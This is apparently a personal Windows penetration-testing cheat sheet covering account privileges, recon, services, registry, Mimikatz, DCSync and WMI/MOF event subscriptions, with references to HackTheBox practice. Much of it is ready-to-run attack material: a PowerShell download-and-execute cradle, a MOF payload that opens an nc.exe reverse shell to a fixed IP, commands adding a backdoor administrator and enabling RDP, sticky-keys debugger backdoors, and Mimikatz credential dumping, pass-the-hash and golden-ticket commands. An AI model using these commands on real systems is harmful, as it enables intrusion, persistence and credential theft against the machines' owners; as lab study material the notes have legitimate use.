


## Quick References

- Commands & prevesc: <https://guif.re/windowseop>
- VMs: <https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/>
- Versions 
    ```
    Windows 1.0                    1.04
    Windows 2.0                    2.11
    Windows 3.0                    3
    Windows NT 3.1                 3.10.528
    Windows for Workgroups 3.11    3.11
    Windows NT Workstation 3.5     3.5.807
    Windows NT Workstation 3.51    3.51.1057
    Windows 95                     4.0.950
    Windows NT Workstation 4.0     4.0.1381
    Windows 98                     4.1.1998
    Windows 98 Second Edition      4.1.2222
    Windows Me                     4.90.3000
    Windows 2000 Professional      5.0.2195
    Windows XP                     5.1.2600
    Windows Vista                  6.0.6000
    Windows 7                      6.1.7600
    Windows 8.1                    6.3.9600
    Windows 10                     10.0.10240
    ```
- User Accounts
  - LocalSystem account is a predefined local account used by the service control manager. 
    - <https://msdn.microsoft.com/en-us/library/windows/desktop/ms684190(v=vs.85).aspx>
    - Very high-privileged built-in account.
    - Extensive privileges on the local system and acts as the computer on the network. 
    - The actual name of the account is `NT AUTHORITY\SYSTEM`.
    - Not recognized by the security subsystem, so you cannot specify its name in a call to the `LookupAccountName` function. 
    - Has extensive privileges on the local computer, and acts as the computer on the network. 
    - Its token includes the `NT AUTHORITY\SYSTEM` and `BUILTIN\Administrators` SIDs; these accounts have access to most system objects. 
    - The name of the account in all locales is `.\LocalSystem`. 
    - The name, `LocalSystem` or `ComputerName\LocalSystem` can also be used. 
    - This account does not have a password. 
    - If you specify the `LocalSystem` account in a call to the `CreateService` or `ChangeServiceConfig` function, any password information you provide is ignored.
    - The service can open the registry key HKEY_LOCAL_MACHINE\SECURITY.
    - The service presents the computer's credentials to remote servers.
    - If the service opens a command window and runs a batch file, the user could hit CTRL+C to terminate the batch file and gain access to a command window with LocalSystem permissions.
    - A service that runs in the context of the `LocalSystem` account inherits the security context of the SCM. The user SID is created from the `SECURITY_LOCAL_SYSTEM_RID` value. 
    - Has:
      - E_ASSIGNPRIMARYTOKEN_NAME (disabled)
      - SE_AUDIT_NAME (enabled)
      - SE_BACKUP_NAME (disabled)
      - SE_CHANGE_NOTIFY_NAME (enabled)
      - SE_CREATE_GLOBAL_NAME (enabled)
      - SE_CREATE_PAGEFILE_NAME (enabled)
      - SE_CREATE_PERMANENT_NAME (enabled)
      - SE_CREATE_TOKEN_NAME (disabled)
      - SE_DEBUG_NAME (enabled)
      - SE_IMPERSONATE_NAME (enabled)
      - SE_INC_BASE_PRIORITY_NAME (enabled)
      - SE_INCREASE_QUOTA_NAME (disabled)
      - SE_LOAD_DRIVER_NAME (disabled)
      - SE_LOCK_MEMORY_NAME (enabled)
      - SE_MANAGE_VOLUME_NAME (disabled)
      - SE_PROF_SINGLE_PROCESS_NAME (enabled)
      - SE_RESTORE_NAME (disabled)
      - SE_SECURITY_NAME (disabled)
      - SE_SHUTDOWN_NAME (disabled)
      - SE_SYSTEM_ENVIRONMENT_NAME (disabled)
      - SE_SYSTEMTIME_NAME (disabled)
      - SE_TAKE_OWNERSHIP_NAME (disabled)
      - SE_TCB_NAME (enabled)
      - SE_UNDOCK_NAME (disabled)
  - LocalService account is a predefined local account used by the service control manager.
    - <https://msdn.microsoft.com/en-us/library/windows/desktop/ms684188(v=vs.85).aspx>
    - Has the **same level** of access to resources and objects as members of the `Users` group. 
    - This limited access helps safeguard the system if individual services or processes are compromised.
    - Services that run as the `Local Service` account access network resources as a `null session` without credentials. 
    - `Local Service` account is not supported for the `SQL Server` or `SQL Server Agent` services. 
    - The actual name of the account is `NT AUTHORITY\LOCAL SERVICE`.
    - Not recognized by the security subsystem, so you cannot specify its name in a call to the `LookupAccountName` function. 
    - Has minimum privileges on the local computer and presents anonymous credentials on the network.
    - Can be specified in a call to the `CreateService` and `ChangeServiceConfig` functions. 
    - This account does not have a password, so any password information that you provide in this call is ignored. 
    - While the security subsystem localizes this account name, the SCM does not support localized names. Therefore, you will receive a localized name for this account from the `LookupAccountSid` function, but the name of the account must be `NT AUTHORITY\LocalService` when you call `CreateService` or `ChangeServiceConfig`, regardless of the locale, or unexpected results can occur.
    - The LocalService account has its own subkey under the HKEY_USERS registry key. Therefore, the `HKEY_CURRENT_USER` registry key is associated with the LocalService account.
    - Has:
      - SE_ASSIGNPRIMARYTOKEN_NAME (disabled)
      - SE_AUDIT_NAME (disabled)
      - SE_CHANGE_NOTIFY_NAME (enabled)
      - SE_CREATE_GLOBAL_NAME (enabled)
      - SE_IMPERSONATE_NAME (enabled)
      - SE_INCREASE_QUOTA_NAME (disabled)
      - SE_SHUTDOWN_NAME (disabled)
      - SE_UNDOCK_NAME (disabled)
      - Any privileges assigned to users and authenticated users
  - NetworkService account is a predefined local account used by the service control manager. 
    - <https://msdn.microsoft.com/en-us/library/windows/desktop/ms684272(v=vs.85).aspx>
    - Has **more** access to resources and objects than members of the `Users` group. 
    - Services that run as the `Network Service` account access network resources by using the `credentials of the computer account`. 
    - The actual name of the account is `NT AUTHORITY\NETWORK SERVICE`.
    - Not recognized by the security subsystem, so you cannot specify its name in a call to the `LookupAccountName` function. 
    - Has minimum privileges on the local computer and acts as the computer on the network.
    - This account can be specified in a call to the `CreateService` and `ChangeServiceConfig` functions. 
    - This account does not have a password, so any password information that you provide in this call is ignored. 
    - While the security subsystem localizes this account name, the SCM does not support localized names. Therefore, you will receive a localized name for this account from the `LookupAccountSid` function, but the name of the account must be `NT AUTHORITY\NetworkService` when you call `CreateService` or `ChangeServiceConfig`, regardless of the locale, or unexpected results can occur.
    - A service that runs in the context of the `NetworkService` account presents the computer's credentials to remote servers. By default, the remote token contains SIDs for the Everyone and Authenticated Users groups. The user SID is created from the `SECURITY_NETWORK_SERVICE_RID` value.
    - Has its own subkey under the `HKEY_USERS` registry key. Therefore, the `HKEY_CURRENT_USER` registry key is associated with the NetworkService account.
    - Has:
      - SE_ASSIGNPRIMARYTOKEN_NAME (disabled)
      - SE_AUDIT_NAME (disabled)
      - SE_CHANGE_NOTIFY_NAME (enabled)
      - SE_CREATE_GLOBAL_NAME (enabled)
      - SE_IMPERSONATE_NAME (enabled)
      - SE_INCREASE_QUOTA_NAME (disabled)
      - SE_SHUTDOWN_NAME (disabled)
      - SE_UNDOCK_NAME (disabled)
      - Any privileges assigned to users and authenticated users
- Convert string to little-endian: `iconv -to-code UTF-16LE`
  - Should be done before base64 encoding for `-ExecuteCommand` in powershell
- Enumeration Tips
  -  Ref: <https://scriptdotsh.com/index.php/2019/01/01/active-directory-penetration-dojo-ad-environment-enumeration-1/>
  - Check the `policies` related to `Network Access Control`. Whether it can be bypassed or not.
  - Go for `guest wifi`. It could lead you to get inside the company network if it is not segregated.
  - Check for the `printers` in the environment. Try to do printer exploitation. Printers are part of domain network too. Try default passwords.
  - Check for `misconfigurations` in the systems as well as the network.
  - At the Domain level, always look for `Administrators` group members instead of going just for `Domain Admins`. Reason being Builtin Administrators group is the superior one. Even "Domain Admins" group is also the member of administrators groups.
  - Look for User `Rights Assignments` in the `GPOs`. They get checked very rarely. The ones which are configured for Domain Controllers actually have domain rights.
  - Most of the organizations use the `same image for all of their deployments`. Which means they use `same local admin password`. Always check if same local admin account is being used in whole domain.
  - Identify `Admin Restrictions`. (Logon Hours, LogonWorkstations) Decoys can be detected using this.
  - Use `Responder to collect NTLM hashes`.
  - Check [SYSVOL](https://social.technet.microsoft.com/wiki/contents/articles/24160.active-directory-back-to-basics-sysvol.aspx) too.
  - `ShareEnum` to look for file shares.
- Recon
  - IP, subnet, default gateway etc: `ipconfig /all`
  - Current user name, info in current access token, SID, privs and group that current user belongs to: `whoami /all`
  - Local groups on current machine: `net localgroup`
  - Local administrators of current machine: `net localgroup "administrators"`
  - Active tcp connections, ports, which the computer is listening, ethernet statistics, ip routing table: `netstat -an`
  - Running processes with verbose mode: `tasklist /V`
  - Startup programs: `net start`
  - Windows services with binary paths: `sc qc <service>`
  - OS, processor, memory, bios related info: `systeminfo>output.txt`
  - Scheduled jobs: `schtasks /query /fo LIST /v`
  - Patches installed and figuring out if its missing important any patch: `wmic qfe get Caption,Description,HotFixID,InstalledOn`
- Domain Network Recon
  - Mapping of IP address to its MAC address in the network: `arp -a`
  - Domain: `echo %USERDOMAIN%`
  - Domain controller name: `echo %logonserver%`
  - List of domain users: `net user /domain`
  - List of groups in the domain: `net group /domain`
  - AD domain password policy: `net accounts /domain`
  - Map AD trust relationships: `nltest /domain_trusts`
- Alternate Data Stream (ADS)
  - Listing: `dir /R`
  - Find Streams: `​get-item -path *.* -stream *`
  - Reading: `​powershell Get-Content -Path "hm.txt" -Stream "root.txt"`
  - Reading: `get-content backup.zip -stream 'pass'`
  - Reading: `streams.exe /accepteula -s` from sysinternals
- Services
  - Registry entries: `HKLM\SYSTEM\CurrentControlSet\Services`
  - View service properties: `sc qc "Vulnerable Service"` / `net start`
  - Restarting: `sc stop "Vulnerable Service"` /  `net stop <name>`
  - Start: `sc start "Vulnerable Service"` /  `net start <name>`
  - Service information: `Get-Service​ ​ "Ubiquiti UniFi Video"​ | fl *`
  - Restart PC: `shutdown /r /t 0`
  - Change binary path: `sc config "Vulnerable Service" binpath= "net user eviladmin P4ssw0rd@ /add`
  - Disable: `sc config servicename start= disabled`
  - Enable: `sc config servicename start= demand`
  - Auto: `sc config servicename start= auto`
  - Keep alive - When a service starts in Windows operating systems, it must communicate with the `Service Control Manager`. If it's not, `Service Control Manager` will terminates the process.
- Installing MSI
    ```
    msiexec /quiet /qn /i malicious.msi
    ```
    ```
    /quiet = Suppress any messages to the user during installation
    /qn = No GUI
    /i = Regular (vs. administrative) installation
    ```
- Extract ZIP
    ```powershell
    Add-Type -assembly
    'system.io.compression.filesystem';[io.compression.zipfile]::ExtractToDirectory
    ("C:\backup.zip","C:\Example\")
    ```
- View File Systems
    ```
    gdr -PSProvider 'FileSystem'
    ```
- Access shared volume
    ```
    net use y: \\10.10.10.57\c$ /user:administrator 1234test
    ```
- Open password protected share
    ```powershell
    net use \\server\share /user:test testpassword
    start \\server\share
    ```
- Auto Save Password to PowerShell
    ```powershell
    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
    ```
    ```powershell
    $passwd = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force;
    $creds = New-Object System.Management.Automation.PSCredential('administrator' $passwd)​

    Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://<LAB IP>/writeup')" -Credential $creds
    ```
- Permissions: `whoami /priv`
  - View Permisions: `cacls C:\Users\Administrator\Desktop\root.txt`
  - Grant Permissions`cacls C:\Users\Administrator\Desktop\root.txt /grant Alfred:F`
    ```powershell
    cacls "c:\users\Administrator\Desktop\root.txt" /E /P Alfred:F

    cacls Windows utility to view/edit file permissions
    /E to edit ACL
    /P to set permissions
    Alfred:F to give Alfred full control of the file
    ```
- SSH from Windows to Attacker (Kali)
  - Manual
    - From Windows: `plink.exe -l root -pw  -R 445:127.0.0.1:445 10.10.14.8`
    - From Attacker:
        ```bash
        netstat -ano | grep 445
        winexe -U Administrator //127.0.0.1 "cmd.exe"
        ```
  - Metasploit
    ```bash
    portfwd add -l 445 -p 445 -r 127.0.0.1
    use exploit/windows/smb/psexec
    set SMBDOMAIN CHATTERBOX
    set SMBUSER Administrators
    set SMBPASS Welcome1!
    set RHOST 127.0.0.1
    exploit
    ```
- Add user and enable RDP
    ```bash
    net user hacker hacker /add
    net localgroup /add Administrators hacker
    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
    ```
- [Windows file association](https://stackoverflow.com/questions/23074430/how-to-run-vbscript-from-command-line-without-cscript-wscript)

### Bypasses

- ftp.exe to open processes: <https://twitter.com/yeyint_mth/status/1009732492138442752>

### Tools 

- Patch Extractor : [https://gist.github.com/moshekaplan/e8d16ed91dc3ca53e73145ba3b2baebd](https://gist.github.com/moshekaplan/e8d16ed91dc3ca53e73145ba3b2baebd) [https://gist.github.com/anonymous/d55f494982c0097111d3263cf7099c9d](https://gist.github.com/anonymous/d55f494982c0097111d3263cf7099c9d)
- ntdsXtract - Active Directory forensic framework: <https://github.com/csababarta/ntdsxtract>
  - Extract users from ESE DB export:
    ```bash
    dsusers.py kotarak.dit.export/datatable.3 kotarak.dit.export/link_table.5 hashdump --syshive
    kotarak.bin --passwordhashes --lmoutfile lmout.txt --ntoutfile ntout.txt --pwdformat ophc
    ```
  - Practice:
    - HTB: Kotarak
- LibEseDB - library to access the Extensible Storage Engine (ESE) Database File (EDB) format: <https://github.com/libyal/libesedb>
  - The ESE database format is used in may different applications like Windows Search, Windows Mail, Exchange, Active Directory, etc.
  - Dump tables:
    ```
    esedbexport -m tables 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit  
    ```
  - Practice:
    - HTB: Kotarak
- WinEXE - remotely executes commands on Windows NT/2000/XP/2003 systems from GNU/Linux (and possibly also from other Unices capable of building the Samba 4 software package): <https://sourceforge.net/projects/winexe/>
- PowerUpSQL: 
  - Dumping Active Directory Domain Info – with PowerUpSQL!: <https://blog.netspi.com/dumping-active-directory-domain-info-with-powerupsql/>
- Bloodhound - uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment. Attackers can use BloodHound to easily identify highly complex attack paths that would otherwise be impossible to quickly identify: <https://github.com/BloodHoundAD/BloodHound>
  - BloodHound uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment: [https://github.com/BloodHoundAD/BloodHound](https://github.com/BloodHoundAD/BloodHound)
  - Find where domain admins are logged in:
    ```
    python http://bloodhound.py  -u <USERNAME> -p <PASSWORD> -d <DOMAIN_NAME> -dc <DOMAIN_CONTROLLER_HOSTNAME>
    neo4j start
    bloodhound
    ```
- LDIFDE: Import/Export information from AD

- Sys Internals: <https://technet.microsoft.com/en-in/sysinternals/bb545021.aspx>
  - `PsExec` - Execute processes on remote machine
  - `PsFile` - Displays list of files opened remotely.
  - `PsGetSid` - Translate SID to display name and vice versa
  - `PsKill` - Kill processes on local or remote machine
  - `PsInfo` - Displays installation, install date, kernel build, physical memory, processors type and number, etc.
  - `PsList` - Displays process, CPU, Memory, thread statistics
  - `PsLoggedOn` - Displays local and remote logged users
  - `PsLogList` - View Event logs
- localrecon.cmd: Utility to generate a summary of a Windows system: <https://github.com/bitsadmin/miscellaneous/blob/master/localrecon.cmd>
- Empire: post-exploitation framework that includes a pure-PowerShell2.0 Windows agent, and a pure Python 2.6/2.7 Linux/OS X agent: <https://github.com/EmpireProject/Empire>
- Seatbelt: C# project that performs a number of security oriented host-survey "safety checks": <https://github.com/GhostPack/Seatbelt>
- 
#### Mimikatz

- Mimikatz 2.0 - Golden Ticket Walkthrough: <https://www.beneaththewaves.net/Projects/Mimikatz_20_-_Golden_Ticket_Walkthrough.html>
- General commands:
    ```
    privilege::debug

    sekurlsa::logonPasswords full
    sekurlsa::pth /user:Administrator /domain:WOSHUB /ntlm:{NTLM_hash} /run:cmd.exe

    misc::skeleton

    ipconfig /all
    whoami /user
    lsadump::lsa /inject /name:krbtgt
    kerbros::golden /domain:[Domain] /sid:[SID] /rc4:[NTLM Hash] /user:[Username To Create] /id:500 /ptt
    pushd \\WINSERVER01\c$
    cd WINDOWS\NTDS
    ```
- If WDigest is disabled:
    ```
    reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
    ```
- Export memory dump and use it in Mimikatz:
    ```
    Get-Process lsass | Out-Minidump
    sekurlsa::minidump lsass_592.dmp
    ```
- Using VMWare / Hibernate file: <http://woshub.com/how-to-get-plain-text-passwords-of-windows-users/>
- Mimikatz features: <https://adsecurity.org/?page_id=1821>
- DCSync
  - <https://adsecurity.org/?p=1729>
    ```bash
    mimikatz “lsadump::dcsync /domain:rd.adsecurity.org /user:krbtgt”
    mimikatz “lsadump::dcsync /domain:rd.adsecurity.org /user:Administrator”
    ```
  - "impersonates" a Domain Controller and requests account password data from the targeted Domain Controller.
  - Required Permissions: Any member of `Administrators`, `Domain Admins`, or `Enterprise Admins` as well as `Domain Controller` computer accounts. Read-Only Domain Controllers are not allowed to pull password data for users by default.
  - Prior to DCSync was to run Mimikatz or Invoke-Mimikatz on a Domain Controller to get the `KRBTGT password hash` to create `Golden Tickets`
  - With DCSync, the attacker can pull the password hash, as well as previous password hashes, from a Domain Controller over the network without requiring interactive logon or copying off the Active Directory database file (ntds.dit).
  - Internals:
    - Discovers Domain Controller in the specified domain name.
    - Requests the Domain Controller replicate the user credentials via [GetNCChanges](https://wiki.samba.org/index.php/DRSUAPI) (leveraging Directory Replication Service (DRS) Remote Protocol)
    ```
    “The client DC sends a DSGetNCChanges request to the server when the first one wants to get AD objects updates from the second one. The response contains a set of updates that the client has to apply to its NC replica.

    It is possible that the set of updates is too large for only one response message. In those cases, multiple DSGetNCChanges requests and responses are done. This process is called replication cycle or simply cycle.”

    “When a DC receives a DSReplicaSync Request, then for each DC that it replicates from (stored in RepsFrom data structure) it performs a replication cycle where it behaves like a client and makes DSGetNCChanges requests to that DC. So it gets up-to-date AD objects from each of the DC’s which it replicates from.”
    ```

#### PsExec

- References:
  - <https://www.contextis.com/en/blog/lateral-movement-a-deep-look-into-psexec>
  - <https://www.toshellandback.com/2017/02/11/psexec/>
  - <http://fuzzynop.blogspot.com/2012/09/pass-hash-without-metasploit.html>

### Important Endpoints

- Connection endpoints for Windows 10: <https://docs.microsoft.com/en-us/windows/privacy/manage-windows-1809-endpoints>

### Registry 

- Important Registry Locations
  - Installed programs: `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall`
  - Gain system shell at login using 5x[shift]:
    - `HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe` with property `Debugger` set to `cmd.exe`
    - `HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe` with property `Debugger` set to `cmd.exe`
    - Disable macro security:
  - Enable EDP: `reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`
- Ways to access registry
  - cmd: `cmd /c REG QUERY`
  - Powershell:
    - `Get-Item <path>`
    - For remote use: `Enter-PSSession` and inside the session use `Get-Item`
  - WMI (StdRegProv)
    - To find IDs use: <https://github.com/darkoperator/Posh-SecMod/blob/master/Registry/Registry.ps1>
      ```
      $RemoteReg = Get-WmiObject -List "StdRegProv" -ComputerName <name> -Credential <cred>
      $RemoteReg | Select-Object -ExpandProperty methods | more
      $RemoteReg.getStringValue(<id>, <path>, <propertyName>)
      ```
  - .Net
    ```
    [Microsoft.Win32.RegistryKey].getMethods()
    ```
  - <https://archive.codeplex.com/?p=psremoteregistry>
- Tasks
  - Recently used commands
  - Installed apps
  - Turn off network level auth
  - Attach debugger to setg.exe

## General Exploits

## Important Files 

## Special File Handling

## Windows API

- Network Related
  - ARP Table: `GetIPNetTable`
- Services
  - Change Services: `ChangeServiceConfigW`

## WMI

- Implementation of `Common Information Model (CIM)` and `Web-Based Enterprise Management (WBEM)`
- `WBEM` standard encompasses the design of an
  - extensible enterprise data-collection and data-management facility
  - that has the flexibility and extensibility
  - required to manage local and remote systems that comprise arbitrary components  
- `WMI` consists of four main components:
  - management applications
  - WMI infrastructure
  - providers
  - managed objects (system, disks, processes, network components...)
- Allows
  -  Execute some code when the notification of an event


> - <http://poppopret.blogspot.com/2011/09/playing-with-mof-files-on-windows-for.html>


> <https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf>

- CIM classes
  - hierarchically organized with subclasses
  - grouped in namespaces (logical group of classes)
  - root\cimv2 includes most of the classes that represent computer's resources
  - Categories 
    - **Core Classes** - Applies to all areas of management (__System_Security)
    - **Common Classes** - Extension of core classes (CIM_UnitaryComputerSystem)
    - **Extended Classes** - Technology specific addition to common classes (Win32_ComputerSystem)
  - Types
    - **Abstract** - Template classes used to define other classes. 
    - **Static** - Stores data 
      - WMI configuration
      - Operational data
    - **Dynamic** - Retrieved from a provider, and represents managed resource (process, service, file, etc.)
    - **Association** - Describe relationship between classes or resources. 
- WMI Provider 
  - Bridge between managed object and WMI
  - Provide access to classes 
- Namespaces 
  - CIM classes are decided logically using namespaces 
  - For easier discovery and use
  - `root\cimv2` `root\default` `root\security` `root\subscription` 
- WMI repository - stores CIM classes' definitions
  - `%SystemRoot%\System32\wbem\Repository`

### Interesting CIM classes

  - [__EventFilter](http://msdn.microsoft.com/en-us/library/aa394639%28v=vs.85%29.aspx) [[create](http://msdn.microsoft.com/en-us/library/aa389741%28VS.85%29.aspx)]: permits to define a Windows event
  - [__EventConsumer](http://msdn.microsoft.com/en-us/library/aa384749%28VS.85%29.aspx): (abstract consumer class)
    - [ActiveScriptEventConsumer](http://msdn.microsoft.com/en-us/library/aa394635): possible to embed VBScript or JSScript in the consumer (only available in `root\subscription`)
      - Consumer runs with SYSTEM privilege on `Windows XP` and `Windows 2003 Server`
      - `Vista`, it is running under the LOCAL_SERVICE user
  - [__FilterToConsumerBinding](http://msdn.microsoft.com/en-us/library/aa394647%28v=VS.85%29.aspx): link two other instances. (permits to activate the consumer - and to execute its code - whenever the defined event occurs)

### [MOF (Managed Object Format)](http://msdn.microsoft.com/en-us/library/aa823192%28VS.85%29.aspx)

- Language used to describe CIM classes, namespaces and providers 
- MOF file needs to be registered into the CIM/WMI repository in order to be taken into account by WMI
  - CIM class(es) MOF describes are added into the repository
  - Stored in `%SystemRoot%\System32\wbem`
- Compilation
  - Compiled using `mofcomp.exe`
- Auto compile & register
  - Writable to `Administrator` only
  - Files added to  `%SystemRoot%\System32\wbem\mof\` get auto compiled and registered (before Vista)
  - Logs are in `%SystemRoot%\System32\wbem\mof\Logs\mofcomp.log`

Wait for a windows event and trigger:
```powershell
#pragma namespace ("\\\\.\\root\\subscription")

instance of __EventFilter as $FILTER
{
    Name = "CLASS_FIRST_TEST";
    EventNamespace = "root\\cimv2";
 Query = "SELECT * FROM __InstanceCreationEvent "
  "WHERE TargetInstance ISA \"Win32_NTLogEvent\" AND "
  "TargetInstance.LogFile=\"Application\"";

    QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as $CONSUMER
{
    Name = "CLASS_FIRST_TEST";
    ScriptingEngine = "VBScript";

    ScriptText =
      "Set objShell = CreateObject(\"WScript.Shell\")\n"
   "objShell.Run \"C:\\Windows\\system32\\cmd.exe /C C:\\nc.exe 192.168.38.1 1337 -e C:\\Windows\\system32\\cmd.exe\"\n";
};

instance of __FilterToConsumerBinding
{
    Consumer = $CONSUMER ;
    Filter = $FILTER ;
};
```
> - Ref: [http://www.hsc-news.com/archives/2011/000078.html](http://www.hsc-news.com/archives/2011/000078.html)

Self start:
```powershell
#pragma namespace ("\\\\.\\root\\subscription")

class WoootClass
{
 [key]
 string Name;
};

instance of __EventFilter as $FILTER
{
    Name = "XPLOIT_TEST_SYSTEM";
    EventNamespace = "root\\subscription";
 Query = "SELECT * FROM __InstanceCreationEvent "
         "WHERE TargetInstance.__class = \"WoootClass\"";

    QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as $CONSUMER
{
    // ...     
};

instance of __FilterToConsumerBinding
{
    // ...
};

instance of WoootClass
{
 Name = "Woot";
};
```

**Usages**

  - Automatically kill some processes as soon as they are launched (anti-rootkits...),
  - Automatically detect when the backdoor/rootkit has been deleted to load it again (dropper),
  - Automatically infect USB devices

### Exploring 

**Exploring Namespaces**

```powershell
Get-WmiObject -Namespace "root" -Class "__Namespace" | select name
Get-CimInstance  -Namespace "root" -Class "__Namespace" 
```

To read nested namespaces:
```powershell
Get-WmiNamespace 
```

**Exploring Classes**

`-Namespace root\cimv2` is the default of Powershell

```powershell
Get-WmiObject -Class *bios* -List 
```
```powershell
Get-CimClasses -List 
```

List only dynamic classes:
```powershell
Get-CimClasses -QualifierName dynamic -List
```

Look at details of the class:
```powershell
Get-WmiObject -Class Win32_Bios | fl *
```
```powershell
Get-CimInstance -ClassName Win32_Bios | fl *
```

**Using WMI Class**

```powershell
Get-WmiObject -Class Win32_Process | Where-Object {$_.Name -eq "explorer.exe"}

Get-WmiObject -Class Win32_Process | where name -eq "explorer.exe"

Get-WmiObject -Query "Select * from Win32_Process where Name = 'explorer.exe'"
```
```powershell
Get-CimInstance -ClassName Win32_Process -Filter "Name -eq 'explorer.exe'"

Get-CimInstance -Query "Select * from Win32_Process where Name = 'explorer.exe'"
```

Can use `Remove-WmiObject` and `Remove-CimInstance` to close processed, remove registry entries, etc. 

**Methods**

Identifying methods:
```powershell
Get-WmiObject * -List | Where-Object {$_.Method}
(Get-WmiObject -Class Win32_Process -List).Methods 
Get-CimClass -Class Win32_Process -List | Select -ExpandProperty Methods
```
```powershell
Get-CimClass -MethodName * 
Get-CimClass -MethodName *create*
Get-CimClass -ClassName Win32_Process | Select -ExpandProperty CimClassMethods
```

Exploring methods:
```powershell
Get-CimClass -ClassName Win32_Process | Select -ExpandProperty CimClassMethods | where name -eq "Create" | Select -ExpandProperty Parameters
```

Invoke:
```powershell
Invoke-WmiMethod -Class Win32_process -Name create -ArgumentList calc.exe
```
```powershell
Invoke-CimMethod -ClassName Win32_process -MethodName Create -Arguments @{CommandLine = "calc.exe"}
```

**Update Instance**

```powershell
Get-WritableProperties 
```

```powershell
Get-WmiObject -Class Win32_Printer -FIlter "name = 'Microsoft XPS Document Writer'" | Set-WmiInstance -Arguments @{Comment = "Example comment"}
```

```powershell
Get-CimInstancet -ClassName Win32_Printer -FIlter "name = 'Microsoft XPS Document Writer'" | Set-CimInstance -Property @{Comment = "Example comment"}
```

**Associations**

> [https://github.com/dfinke/images/blob/master/acn.png](https://github.com/dfinke/images/blob/master/acn.png)


```powershell
Get-WmiObject -Class *Win32_NetworkAdapter* -List | fl *
Get-WmiObject -Class Win32_NetworkAdapter -List | fl *

Get-WmiObject -Query "Associators of {win32_NetworkAdapter.DeviceID=11}"
Get-WmiObject -Query "Associators of {win32_NetworkAdapter.DeviceID=11} Where ClassDefsOnly"

Get-CimAssociatedInstance -InputObject (Get-CimInstance -ClassName Win32_NetworkAdapter -Filter 'DeviceId = 11')
```

Only see one association class: 
```powershell
Get-WmiObject -Query "Associators of {win32_NetworkAdapter.DeviceID=11}" -AssociationClass Win32_ProtocolBinding 
```

Get references (classes linking two other classes)
```powershell
Get-WimObject -Query "References of {win32_NetworkAdapter.DeviceID=11} Where ClassDefsOnly"
Get-WimObject -Query "References of {win32_NetworkAdapter.DeviceID=11}" 
```

### Interesting Queries 

- List all the systems within the current environment/directory:  `SELECT ds_cn FROM ds_computer`
- Installed software: 
- File listing:
- Services:
- Logon accounts:
- Hardware information:
- Installed patches:
- Security logs:
- Command line used to start processes: 
- Path to executable for running processes: 

### Useful WMI Classes 

- Win32_OperatingSystem
- Win32_Process
- Win32_IP4RouteTable
- Win32_UserAccount
- Win32_Groups
- Win32_ShadowCopy
